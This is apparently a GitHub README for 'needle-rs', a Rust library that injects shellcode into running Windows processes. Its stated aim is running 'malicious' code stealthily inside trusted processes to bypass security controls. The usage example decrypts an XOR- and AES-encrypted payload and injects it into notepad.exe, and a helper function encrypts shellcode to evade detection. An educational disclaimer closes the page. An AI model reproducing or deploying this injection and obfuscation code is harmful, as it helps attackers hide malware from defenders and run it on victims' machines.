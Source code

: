 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```TOML
# Cargo.toml
# ...
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```
```RUST
use needle::{
    cypher::{PayloadCypher, XorCypher},
    find_process, inject, Shellcode,
};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_ENCRYPTED_PAYLOAD.bin");
const XOR_KEY: u8 = 0x42;
const AES_KEY: [u8; 32] = [ /* ... */ ];

fn main() {
    let payload = XorCypher::<AesCypher>::from(SHELL_CODE.to_vec())
        .decrypt(&XOR_KEY)
        .decrypt(&AES_KEY);

    let process = find_process("notepad.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}

#[allow(dead_code)]
fn generate_payload(shellcode: Shellcode) {
    let payload = shellcode
        .into_raw()
        .aes_encrypt(&AES_KEY)
        .xor_encrypt(XOR_KEY);
    println!("Encrypted shellcode: {:#04x?}", payload);
}

```
**If anyone is interested in implementing other platforms/methods/cyphers, please feel free to contribute 👍**

## Disclaimer
Information and code provided on this repository are for educational purposes only. The creator is in no way responsible for any direct or indirect damage caused due to the misuse of the information.